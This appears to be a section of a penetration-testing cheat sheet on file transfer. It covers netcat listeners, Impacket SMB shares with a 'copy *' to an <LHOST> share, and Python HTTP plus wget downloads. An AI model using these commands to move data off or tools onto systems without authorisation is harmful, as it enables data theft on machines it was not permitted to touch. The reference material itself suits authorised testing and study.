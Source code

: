 # File Transfer - commands

## File Transfer using Netcat (nc)
Netcat is a versatile utility that can transfer files directly over a TCP/UDP connection.

### On Linux (Act as Server):

Run the following to listen on port 4444:

```
nc -lvnp 4444 < file.txt
```
### On Windows (Receive the File):

Use the following to connect and save the file:

```
nc 192.168.1.100 4444 > C:\Users\Public\file.txt
```

## Impacket
```
sudo impacket-smbserver <SHARE> ./
sudo impacket-smbserver <SHARE> . -smb2support
copy * \\<LHOST>\<SHARE>
```

## File Transfer using Wget
Wget is a command-line utility available by default on Linux and can be installed on Windows. It’s especially useful for downloading files over HTTP, HTTPS, or FTP.

### Linux to Linux or Linux to Windows:

Start a Python HTTP server on the Linux machine (explained in Section 13).

```
python3 -m http.server 8080
```

On the destination machine, download the file using wget:

```
wget http://192.168.1.100:8080/file.txt
```

### Windows with Wget Installed:

Install Wget on Windows if it’s not already available.

Run the following command:

```
wget http://192.168.1.100:8080/file.txt -OutFile C:\Users\Public\file.txt
```
